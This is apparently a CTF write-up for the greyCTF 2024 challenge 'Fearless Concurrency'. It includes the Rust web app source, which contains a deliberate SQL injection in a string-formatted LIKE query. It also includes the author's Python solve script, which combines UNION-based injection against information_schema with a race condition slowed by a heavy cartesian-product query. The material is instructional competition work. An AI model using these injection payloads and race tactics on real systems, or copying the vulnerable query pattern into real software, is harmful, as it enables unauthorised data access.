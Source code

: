 ```yaml
---
title: Fearless Concurrency
date: 2024-04-22
tags: 
- web
- race condition
- sqli
- author-hartmannsyg
categories: greyCTF 2024
---
```


solved by {% person hartmannsyg %}

>Rust is the most safest, fastest and bestest language to write web app! The code compiles, therefore it is impossible for bugs! PS: This is my first rust project (real) 🦀🦀🦀🦀🦀
>Author: jro
>http://challs.nusgreyhats.org:33333

<details>
<summary>Full source code</summary>
```rs
use std::{collections::HashMap, sync::Arc};

use mysql_async::{prelude::Queryable, Pool};
use axum::{
    extract::State, response::IntoResponse, routing::{get, post}, Json, Router
};
use serde::Deserialize;
use sha1::{Digest, Sha1};
use tokio::sync::{Mutex, RwLock};

#[derive(Clone)]
struct User {
    lock: Arc<Mutex<()>>,
    secret: u32
}

impl User {
    fn new() -> User {
        User {
            lock: Arc::new(Mutex::new(())),
            secret: rand::random::<u32>()
        }
    }
}

#[derive(Clone)]
struct AppState {
    users: Arc<RwLock<HashMap<u64, User>>>,
    pool: Arc<Pool>
}

impl AppState {
    fn new(pool: Pool) -> AppState {
        AppState { 
            users: Arc::new(RwLock::new(HashMap::new())),
            pool: Arc::new(pool)
        }
    }
}

#[tokio::main]
async fn main() {
    tracing_subscriber::fmt::init();

    let url = "mysql://fearless_concurrency:fearless_concurrency@database:3306/fearless_concurrency";

    let pool = Pool::new(url);

    let mut conn = pool.get_conn().await.unwrap();
    conn.exec_drop("CREATE TABLE IF NOT EXISTS info (body varchar(255))", ()).await.unwrap();
    conn.exec_drop("INSERT INTO info VALUES ('Hello, world')", ()).await.unwrap();

    let state = AppState::new(pool);
    let app = Router::new()
        .route("/", get(root))
        .route("/register", post(register))
        .route("/query", post(query))
        .route("/flag", post(flag))
        .with_state(state);

    let listener = tokio::net::TcpListener::bind("0.0.0.0:3000").await.unwrap();
    println!("Listener started on port 3000");
    axum::serve(listener, app).await.unwrap();
}

async fn root() -> &'static str {
    "Hello, World!"
}

async fn register(State(state): State<AppState>) -> impl IntoResponse {
    let uid = rand::random::<u64>();
    let mut users = state.users.write().await;
    let user = User::new();
    users.insert(uid, user);
    uid.to_string()
}

#[derive(Deserialize)]
struct Query {
    user_id: u64,
    query_string: String
}

async fn query(State(state): State<AppState>, Json(body): Json<Query>) -> axum::response::Result<String> {
    let users = state.users.read().await;
    let user = users.get(&body.user_id).ok_or_else(|| "User not found! Register first!")?;
    let user = user.clone();

    // Prevent registrations from being blocked while query is running
    // Fearless concurrency :tm:
    drop(users);

    // Prevent concurrent access to the database!
    // Don't even try any race condition thingies
    // They don't exist in rust!
    let _lock = user.lock.lock().await;
    let mut conn = state.pool.get_conn().await.map_err(|_| "Failed to acquire connection")?;

    // Unguessable table name (requires knowledge of user id and random table id)
    let table_id = rand::random::<u32>();
    let mut hasher = Sha1::new();
    hasher.update(b"fearless_concurrency");
    hasher.update(body.user_id.to_le_bytes());
    let table_name = format!("tbl_{}_{}", hex::encode(hasher.finalize()), table_id);

    let table_name = dbg!(table_name);
    let qs = dbg!(body.query_string);

    // Create temporary, unguessable table to store user secret
    conn.exec_drop(
        format!("CREATE TABLE {} (secret int unsigned)", table_name), ()
    ).await.map_err(|_| "Failed to create table")?;

    conn.exec_drop(
        format!("INSERT INTO {} values ({})", table_name, user.secret), ()
    ).await.map_err(|_| "Failed to insert secret")?;


    // Secret can't be leaked here since table name is unguessable!
    let res = conn.exec_first::<String, _, _>(
        format!("SELECT * FROM info WHERE body LIKE '{}'", qs),
        ()
    ).await;

    // You'll never get the secret!
    conn.exec_drop(
        format!("DROP TABLE {}", table_name), ()
    ).await.map_err(|_| "Failed to drop table")?;

    let res = res.map_err(|_| "Failed to run query")?;

    // _lock is automatically dropped when function exits, releasing the user lock

    if let Some(result) = res {
        return Ok(result);
    }
    Ok(String::from("No results!"))
}


#[derive(Deserialize)]
struct ClaimFlag {
    user_id: u64,
    secret: u32
}

async fn flag(State(state): State<AppState>, Json(body): Json<ClaimFlag>)  -> axum::response::Result<String> {
    let users = state.users.read().await;
    let user = users.get(&body.user_id).ok_or_else(|| "User not found! Register first!")?;

    if user.secret == body.secret {
        return Ok(String::from("grey{fake_flag_for_testing}"));
    }
    Ok(String::from("Wrong!"))
}
```
</details>

There are a few endpoints we can use:
1. `/register`
    this adds a random `user_id` to their hashmap `users`
    {% ccb gutter1:26-30 lang:rs %}
    #[derive(Clone)]
    struct AppState {
        users: Arc<RwLock<HashMap<u64, User>>>,
        pool: Arc<Pool>
    }
    {% endccb %}
    {% ccb gutter1:70-76 lang:rs %}
    async fn register(State(state): State<AppState>) -> impl IntoResponse {
        let uid = rand::random::<u64>();
        let mut users = state.users.write().await;
        let user = User::new();
        users.insert(uid, user);
        uid.to_string()
    }
    {% endccb %}

2. `/query`
    You give it your `user_id` and a `query_string` and it does quite a few things:
    - locks the `user` based on the `user_id` provided (so you can't race condition with the same `user_id`)
        {% ccb gutter1:93-96 lang:rs %}
        // Prevent concurrent access to the database!
        // Don't even try any race condition thingies
        // They don't exist in rust!
        let _lock = user.lock.lock().await;
        {% endccb %}
    - Creates an "Unguessable table name", which contains `sha1(user_id)` and a randoom number:
        {% ccb gutter1:99-104 lang:rs %}
        // Unguessable table name (requires knowledge of user id and random table id)
        let table_id = rand::random::<u32>();
        let mut hasher = Sha1::new();
        hasher.update(b"fearless_concurrency");
        hasher.update(body.user_id.to_le_bytes());
        let table_name = format!("tbl_{}_{}", hex::encode(hasher.finalize()), table_id);
        {% endccb %}
    - Creates a new table and stores the user secret inside:
        {% ccb gutter1:109-116 lang:rs %}
        // Create temporary, unguessable table to store user secret
        conn.exec_drop(
            format!("CREATE TABLE {} (secret int unsigned)", table_name), ()
        ).await.map_err(|_| "Failed to create table")?;

        conn.exec_drop(
            format!("INSERT INTO {} values ({})", table_name, user.secret), ()
        ).await.map_err(|_| "Failed to insert secret")?;
        {% endccb %}
    - It then queries your query from `info`, which only contains `Hello, World!`. Note that it is vulnerable to SQL injection:
        {% ccb gutter1:119-123 lang:rs highlight:3 %}
        // Secret can't be leaked here since table name is unguessable!
        let res = conn.exec_first::<String, _, _>(
            format!("SELECT * FROM info WHERE body LIKE '{}'", qs),
            ()
        ).await;
        {% endccb %}

    - It then deletes the unguessable table:
        {% ccb gutter1:125-128 lang:rs %}
        // You'll never get the secret!
        conn.exec_drop(
            format!("DROP TABLE {}", table_name), ()
        ).await.map_err(|_| "Failed to drop table")?;
        {% endccb %}

## My initial thoughtss

Well obviously we have SQL injection, so we can use `'UNION SELECT ...` to get other data we want

My inital idea was trying to get the table name from `select table_name from information_schema.tables where table_name LIKE '...'`, then using that result to create a select statement. Potentially something like:

{% ccb lang:sql wrapped:true %}
select * from magically_turn_into_the_table(select table_name from information_schema.tables where table_name LIKE '...')
{% endccb %}

> Spoiler alert: It didn't work<br>
> Apparently doing something like that requires *dynamic SQL* or something, and is not feasible within normal SQL

I then kinda tried naively playing around with race conditions unsuccessfully; thankfully I managed to find *a* solution:

## My (potentially overcomplicated) solution


![](../../static/greyCTF2024/fearless_concurrency.png)

<details>
<summary>My solve script</summary>
```py
import asyncio
import httpx
import hashlib
import struct

async def func1(client, uid1, uid2, shah):
    resp = await client.post(f'http://challs.nusgreyhats.org:33333/query', json={"user_id": uid1, "query_string":f"'union select table_name from information_schema.tables where table_name LIKE 'tbl_{shah}%';#"})
    table_name = resp.text
    resp = await client.post(f'http://challs.nusgreyhats.org:33333/query', json={"user_id": uid2, "query_string":f"'union select * from {table_name};#"})
    return resp.text

async def func2(client, uid2):
    # time consuming query?
    q = f"'union select i.table_name from information_schema.tables,information_schema.tables as i;#"
    resp = await client.post(f'http://challs.nusgreyhats.org:33333/query', json={"user_id": uid2, "query_string":q})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        
        register1 = await client.post('http://challs.nusgreyhats.org:33333/register')
        uid1 = int(register1.text)
        
        register2 = await client.post('http://challs.nusgreyhats.org:33333/register')
        uid2 = int(register2.text)
        
        tasks = []

        hasher = hashlib.sha1()
        hasher.update(b"fearless_concurrency")
        user_id_bytes = struct.pack("<Q", uid2) # equivalent to p64
        hasher.update(user_id_bytes)
        shah = hasher.hexdigest()

        print(f"uid1 = {uid1}, uid2 = {uid2}")

        # swapping func2 and func1 operations worked for me so the numbering is fucked
        tasks.append(asyncio.ensure_future(func2(client, uid2)))
        tasks.append(asyncio.ensure_future(func1(client, uid1, uid2, shah)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        print(f'func2: {results[0]}')
        print(f'func1: {results[1]}')
        
        if len(results[1]) > 0 and results[1].isdigit():
            flag = await client.post('http://challs.nusgreyhats.org:33333/flag', json={"user_id":uid2, "secret":int(results[1])})
            print(flag.text)

asyncio.run(main())
```
</details>

In my case, I used a time-consuming cartesian product:

{% ccb lang:sql wrapped:true %}
SELECT * FROM info WHERE body LIKE ''union select i.table_name from information_schema.tables,information_schema.tables as i;#'
{% endccb %}

since for some reason there were tons and tons of undropped tables in the database, even doing a cartesian product of `information_schema.tables,information_schema.tables` is more than enough to lag it enough. (When I added even more `information_schema.tables` to the cartesian product I get an error message lol)

As it turned out, more normal and sane people would have use `SLEEP`, truly a bruh moment.

## Other solutions/ideas

- Leaking out the table name one character at a time (this uses more requests though)
- somehow using sqlmap to get the flag (idk how that worked)